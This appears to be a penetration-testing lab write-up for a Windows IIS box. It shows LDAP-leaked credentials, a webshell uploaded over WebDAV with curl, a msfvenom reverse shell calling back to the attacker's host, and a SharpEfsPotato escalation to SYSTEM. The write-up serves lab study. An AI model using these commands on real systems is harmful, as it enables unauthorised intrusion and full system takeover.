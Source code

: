 
![image](https://github.com/user-attachments/assets/407a3e7a-1299-4fee-ac5c-4a8c86ddd8a4)
![image](https://github.com/user-attachments/assets/37d26822-0461-4447-bb7e-ca8fc86e5742)
![image](https://github.com/user-attachments/assets/1e839a06-d36f-4769-9b1b-dfc5c95442e0)
![image](https://github.com/user-attachments/assets/1c1ba04f-8104-42f2-a252-2a439d978b34)
![image](https://github.com/user-attachments/assets/e055bed3-ee16-445d-b319-c81650cb8d4b)
![image](https://github.com/user-attachments/assets/43254461-3cf6-42c2-b566-f17bad444af9)
![image](https://github.com/user-attachments/assets/3c763035-0c5a-4af3-92de-c9863b8d89db)
![image](https://github.com/user-attachments/assets/7cc83511-35e9-4770-b641-4881fc99f09b)
![image](https://github.com/user-attachments/assets/7db98041-56eb-4f4c-b877-0a3e9113f81c)
![image](https://github.com/user-attachments/assets/93f8f3cf-d368-479a-95ec-d68106d46874)
![image](https://github.com/user-attachments/assets/c7444fa8-409d-42c6-93c9-832f2bcdac98)
![image](https://github.com/user-attachments/assets/66657954-5d78-4e41-8901-29b4d46edf63)

![image](https://github.com/user-attachments/assets/c70d93fd-1175-4eae-ac30-bec85cd0fb39)

![image](https://github.com/user-attachments/assets/4c96461e-8400-4050-b0a4-1b6de06e3e8e)
![image](https://github.com/user-attachments/assets/3ce002f9-2a37-4012-8f96-a1819f8c76ed)
![image](https://github.com/user-attachments/assets/109a29e8-d71b-4cc2-876e-84373262520d)

![image](https://github.com/user-attachments/assets/0f25c6b0-9921-4b52-a3b9-882c8c694b4d)

![image](https://github.com/user-attachments/assets/8479056d-234e-497c-8e4a-c282336aaef9)
![image](https://github.com/user-attachments/assets/62b56a2c-8fff-454f-b221-3f9070a740cd)

![image](https://github.com/user-attachments/assets/c38c6fb6-590d-411b-ba71-1c8b5521406f)


1. Microsoft IIS 10.0 server on port 80 with WebDAV enabled

2. ldap leak senstive info --> username: fmcsorley   password:CrabSharkJellyfish192

3. ```
   WebDAV = Web Distributed Authoring and Versioning
   It’s an extension of HTTP that lets users upload, delete, move, and edit files on a web server.
   Think of it like turning a web server into a remote file system.

   If WebDAV is enabled and allows PUT, MOVE, DELETE, etc., attacker might be able to:
    * Upload malicious files, e.g., ASPX webshells
    * Gain remote command execution if those files are interpreted by the server (like ASPX on IIS)
    * Bypass traditional upload restrictions (e.g., through WebDAV but not through the frontend app)

   | Tool    | Purpose                              | When to Use                                |
   | --------| ------------------------------------ | ------------------------------------------ |
   | davtest | Test upload & execution capabilities | For automated checks for WebDAV weaknesses |
   | cadaver | Manual WebDAV interaction            | When you want control over upload/browse   |

   |Extension| Platform           | Purpose                            | Use If...                                   |
   |---------| ------------------ | ---------------------------------- | ------------------------------------------- |
   | .aspx   | IIS (ASP.NET)      | Remote code execution              | IIS 7+ / 10 — default choice                |
   | .asp    | IIS (Classic ASP)  | Remote code execution              | If `.aspx` fails and classic ASP is enabled |
   | .php    | Apache/nginx/Linux | Remote code execution              | Only if IIS is set up to run PHP            |
   | .html   | Any web server     | Static content (no execution)      | Use for hosting basic phishing or redirect  |
   | .txt    | Any                | Probing uploads (e.g., test write) | Test whether file upload works              |
   ```
4. ```
   cp /usr/share/webshells/aspx/cmdasp.aspx .
   curl -u "hutch\\fmcsorley:CrabSharkJellyfish192" -T cmdasp.aspx http://192.168.207.122/cmdasp.aspx
   ```
5. browser to visit http://192.168.207.122/cmdasp.aspx?cmd=whoami --> get command box

6. uploaded files are under C:\inetpub\wwwroot\

7. generate reverse shell and upload to machine
   ````
   msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.212 LPORT=5985 -f exe -o shell.exe
   cadaver http://192.168.207.122/
   Username: fmcsorley
   Password:CrabSharkJellyfish192
   put shell.exe
   ````
8. execute from browser command box C:\inetpub\wwwroot\shell.exe --> get reverse shell back to Kali --> get local.txt flag under C:\Users\fmcsorley\Desktop

9. whoami /priv --> SeImpersonatePrivilege Enabled

10. upload SharpEfsPotao.exe and the generated privilege escalation shell to global writable directory C:\Users\Public

11. PE to SYSTEM
    ```
    .\SharpEfsPotato.exe -p pe.exe
    ```
